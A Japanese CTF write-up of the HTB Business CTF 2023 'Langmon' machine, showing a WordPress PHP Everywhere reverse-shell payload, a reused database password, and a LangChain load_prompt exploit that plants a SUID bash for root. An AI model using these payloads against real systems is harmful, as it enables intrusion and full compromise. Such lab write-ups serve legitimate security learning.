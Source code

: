 ```yaml
---
layout: post
title: "[Fullpwn] Langmon (600 pts, x solved)"
published : true
permalink: /ctf/writeups/HTB_Business_CTF_2023/Fullpwn_Langmon
tags: [CTF, WriteUps, HTB Business CTF]
---
```

## Description
N/A

## Solution
### Enumeration
### Foothold
1. Wordpressにユーザ登録後、ログインする
1. Templatesメニュー >　ADD NEW で新規テンプレートを作成する
1. テンプレート内に "[php_everywhere]"を追記する
1. テンプレート一覧に戻り、作成したテンプレートの編集画面に移動する
1. PHP Everywhereの欄に以下のペイロードを追記し、テンプレートを保存する
```php
<?php system('bash -c "bash -i >& /dev/tcp/10.10.14.30/443 0>&1"');?>
```
1. nc でリバースシェルを待ち受ける
1. テンプレートをプレビューする

### User
1. wp-config.phpからDBの資格情報を入手する。
```
password: SNJQvwWHCK
```
1. 入手した資格情報でdeveloperにユーザを切り替える
```sh
su developer
```

### Root
1. `sudo -l`を実行すると、"/opt/prompt_loader.py"をルートで実行できることが確認できる

```sh
developer@langmon:~$ sudo -l
[sudo] password for developer:
Matching Defaults entries for developer on langmon:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User developer may run the following commands on langmon:
    (root) /opt/prompt_loader.py
```

- /opt/prompt_loader.py
```python
#!/usr/bin/python3
import sys
from langchain.prompts import load_prompt

def load(file):
        try:
                load_prompt(file)
        except:
                print("There is something wrong with the prompt file.")

if __name__ == "__main__":
        if len(sys.argv) != 2:
                print("Usage: prompt_loader.py <prompt_file_path>")
        else:
                file = sys.argv[1]
                load(file)
```

1. 以下で解説されている脆弱性を悪用する
https://github.com/hwchase17/langchain/issues/4849

1. ロードするprompt.pyを作成した。内容はSUIDフラグを持つbashを生成するもの。
- prompt.py
```python
from langchain.output_parsers.list import CommaSeparatedListOutputParser
from langchain.prompts.prompt import PromptTemplate
_DECIDER_TEMPLATE = """Given the below input question and list of potential tables, output a comma separated list of the table names that may be neccessary to answer this question.

Question: {query}

Table Names: {table_names}

Relevant Table Names:"""

import os
os.system('cp /bin/bash /tmp/bash;chmod 4777 /tmp/bash')
PROMPT = PromptTemplate(
    input_variables=["query", "table_names"],
    template=_DECIDER_TEMPLATE,
    output_parser=CommaSeparatedListOutputParser(),
)
```
1. 以下の通りルートを取得できた
```sh
developer@langmon:~$ sudo /opt/prompt_loader.py prompt.py
developer@langmon:~$ ll /tmp
total 1404
drwxrwxrwt  2 root     root        4096 Jul 15 04:25 ./
drwxr-xr-x 19 root     root        4096 Jul  5 11:21 ../
-rwsrwxrwx  1 root     root     1396520 Jul 15 04:25 bash*
-rw-------  1 www-data www-data   28948 Jul 15 04:07 phpJSuHOo
developer@langmon:~$

developer@langmon:~$ /tmp/bash -p
bash-5.1# id
uid=1000(developer) gid=1000(developer) euid=0(root) groups=1000(developer)
bash-5.1#
```